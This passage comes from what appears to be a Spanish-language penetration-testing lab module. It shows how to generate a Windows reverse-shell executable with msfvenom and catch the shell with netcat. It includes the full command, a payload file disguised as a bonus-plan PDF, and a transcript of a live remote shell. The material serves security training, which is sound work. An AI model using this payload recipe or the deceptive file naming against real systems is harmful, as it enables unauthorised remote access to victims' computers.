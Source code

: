 Este mismo concepto se puede usar para crear payloads para varias plataformas, incluyendo Windows.

---
## Building a simple Stageless Payload for a Windows system

También podemos usar msfvenom para crear un ejecutable (`.exe`) que se puede ejecutar en un sistema Windows para proporcionar una shell.

### Windows Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

La sintaxis del comando se puede desglosar de la misma manera que hicimos anteriormente. Las únicas diferencias, por supuesto, son la `platform` (`Windows`) y el formato (`.exe`) del payload.

---

## Executing a Simple Stageless Payload On a Windows System

Esta es otra situación en la que necesitamos ser creativos para que este payload se entregue a un sistema objetivo. Sin ninguna `encoding` o `encryption`, el payload en esta forma casi con certeza sería detectado por Windows Defender AV.

![image](https://academy.hackthebox.com/storage/modules/115/winpayload.png)

Si el AV estuviera deshabilitado, todo lo que el usuario tendría que hacer es hacer doble clic en el archivo para ejecutarlo y tendríamos una sesión shell.

```bash
sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```

